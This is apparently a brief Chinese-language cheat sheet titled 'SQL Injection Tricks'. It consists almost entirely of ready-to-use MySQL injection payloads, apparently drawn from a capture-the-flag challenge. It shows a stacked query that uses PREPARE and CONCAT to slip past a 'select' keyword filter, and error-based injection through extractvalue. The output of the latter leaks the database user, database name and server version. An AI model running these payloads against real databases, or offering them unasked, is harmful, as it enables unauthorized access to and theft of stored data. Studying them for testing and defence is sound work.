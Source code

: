 ```yaml
---
title: "SQL Injection Tricks"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:19+08:00
draft: false
---
```


## select 关键字过滤绕过 {#select-关键字过滤绕过}

预编译绕过关键字(select)过滤：

```text
1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
```


## mysql 报错注入 {#mysql-报错注入}

1.  orderby 猜列数

2.  extractvalue

<!--listend-->

```nil
1' and (extractvalue(1,concat(0x7e,user(),0x7e)));#
error 1105 : XPATH syntax error: '~root@localhost~'
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
error 1105 : XPATH syntax error: '~supersqli~'
1' and (extractvalue(1,concat(0x7e,version(),0x7e)));#
error 1105 : XPATH syntax error: '~10.3.15-MariaDB~'
```

